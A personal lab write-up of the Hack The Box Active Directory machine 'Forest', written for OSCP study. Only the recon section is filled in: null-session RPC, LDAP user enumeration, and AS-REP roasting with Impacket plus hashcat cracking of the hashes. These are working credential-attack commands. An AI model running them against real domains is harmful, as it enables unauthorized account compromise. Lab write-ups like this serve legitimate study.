



# Walkthrough
Name: Forest
Date: 03/06/2022
Difficulty: Easy / User Average: Medium
Description: Retired Staff Pick Active Directory machine
Better Description:  
Goals: OSCP Prep, revise DNS, LDAP, SMB, RPC enumeration; Revise AD attacks from THM stuff.
Learnt: Habits must change in note taking, I doing ok and the next improvements aren't far away just another 50 machines away.

This is mainly a hand hold through this machine that will be redone at a later date to test myself. Need to revise and add to cheatsheets also while doing this it pulled up note taking vs writing habits. I will have on the same day uploaded another AD machine from HTB without Ippsec. Basically I love vim too much should use Obsidian more. Note then write stuff.

## Recon

Ran some of the recon weeks ago while reading, coding and hacking, still have some to do. Regardles with the original IP I started enumeration with a ping to check Time to Live field to do OS detection and see if the box responded to ICMP packets:


`TTL for Windows is 128`, but also accept ICMP packets so no need to `-Pn` flag for nmap.

Went through my [SMB Cheatsheet](https://github.com/7RU7H/Archive/blob/main/Recon/Active-Information-Gathering/SMB/SMB-Recon-Cheatsheet.md) and found using rcp null attack. I had read about it from a cheatsheet and used it in a previous machine and was as amazed as when I learnt about anonymous FTP over a year ago. I am easily pleased.

```bash
rpcclient -U "" -N $IP
```


The above was some of the stuff I tried, found another cheatsheet to added to my current RPC Cheatsheet, while nmap ran:
```bash
nmap --script=ldap-search -p 389 --script-args ldap.maxobjects=-1 -oA nmap/ldap-search 10.129.95.210
```
Then tried some the ldapsearch from [LDAP Cheatsheet]()

```bash
ldapsearch -LLL -x -H ldap://htb.local -b '' -s base '(objectclass=*)' 
```
Lots of information and Ippsec reminding the wonders on wildcards and filtering. Changing `'(objectClass=Person)'`

```bash
ldapsearch -LLL -x -H ldap://htb.local -b 'DC=htb,DC=local' '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.txt
```
I noticed the `HTB\lucinda, HTB\svc-alfresco` User and services and checked them out.

Created a list of Users and Service Principle Names from enum4linux output, while considered how to extract information from extensive LDAP search output.
```bash
cat enumFourLinux.txt | grep "has member" | awk -F ' ' '{ print $8 }' | grep HTB > usersPlusSPNs.txt
```
Watched some Ippsec to learn mote and add more to my LDAP cheatsheet, then paused video to make users.txt; for password spraying. Deleting the excess machine accounts so as to not waste time password spraying with crackmapexec.

The account lockout threshold:0 means Bruteforcable

Using Ippsec knwoledge as a baseline my longawaited [Impacket cheatsheet]() started to take shape over the course today. Learnt about `GetNPUsers.py` and how for users that do not require Kerberos preauthentiation it can grab those hashes. And continued to follow along, while went back and refactored an idea about rule base methodologies as more advanced cheetsheat that could be used as a opposite to YARA rules, for red teaming plus some AI.

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
Then cracked with:
```bash
hashcat hash -m 18200 /usr/share/wordlists/rockyou.txt  
```


Then use the credentials to enumerate smb shares




## Exploit

## Foothold

## PrivEsc

      
